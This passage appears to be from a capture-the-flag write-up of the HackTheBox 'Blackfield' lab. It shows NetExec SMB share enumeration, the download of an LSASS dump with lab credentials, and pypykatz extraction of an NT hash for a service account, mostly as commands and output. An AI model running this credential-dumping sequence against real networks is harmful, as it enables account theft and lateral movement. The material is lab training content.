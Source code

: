 ```bash
SMB         10.10.10.192    445    DC01             NETLOGON        READ            Logon server share
SMB         10.10.10.192    445    DC01             profiles$       READ
SMB         10.10.10.192    445    DC01             SYSVOL          READ            Logon server share
SPIDER_P... 10.10.10.192    445    DC01             [+] Saved share-file metadata to "/tmp/nxc_spider_plus/10.10.10.192.json".
SPIDER_P... 10.10.10.192    445    DC01             [*] SMB Shares:           7 (ADMIN$, C$, forensic, IPC$, NETLOGON, profiles$, SYSVOL)
SPIDER_P... 10.10.10.192    445    DC01             [*] SMB Readable Shares:  5 (forensic, IPC$, NETLOGON, profiles$, SYSVOL)
SPIDER_P... 10.10.10.192    445    DC01             [*] SMB Filtered Shares:  1
SPIDER_P... 10.10.10.192    445    DC01             [*] Total folders found:  368
SPIDER_P... 10.10.10.192    445    DC01             [*] Total files found:    725
SPIDER_P... 10.10.10.192    445    DC01             [*] File size average:    978.9 KB
SPIDER_P... 10.10.10.192    445    DC01             [*] File size min:        0 B
SPIDER_P... 10.10.10.192    445    DC01             [*] File size max:        125.87 MB
```

It seems that among the files there is a **LSASS memory dump** which we can download locally:

```bash
# read output file
$ jq . /tmp/nxc_spider_plus/10.10.10.192.json
<SNIP>
    },
    "memory_analysis/lsass.zip": {
      "atime_epoch": "2020-05-28 21:25:08",
      "ctime_epoch": "2020-05-28 21:25:01",
      "mtime_epoch": "2020-05-28 21:29:24",
      "size": "39.99 MB"
    },
<SNIP>

# download file
$ nxc smb 10.10.10.192 -u audit2020 -p 'p@ssw0rd!' --share forensic --get-file memory_analysis/lsass.zip lsass.zip
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:p@ssw0rd!
SMB         10.10.10.192    445    DC01             [*] Copying "memory_analysis/lsass.zip" to "lsass.zip"
SMB         10.10.10.192    445    DC01             [+] File "memory_analysis/lsass.zip" was downloaded to "lsass.zip"
```

We can use [`pypykatz`](https://github.com/skelsec/pypykatz) to extract the data from the LSASS file:

```bash
# unzip the lsass dump
$ unzip lsass.zip
Archive:  lsass.zip
  inflating: lsass.DMP

# extract the data
$ pypykatz lsa minidump lsass.DMP
INFO:pypykatz:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
<SNIP>
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 96<REDACTED>0d
```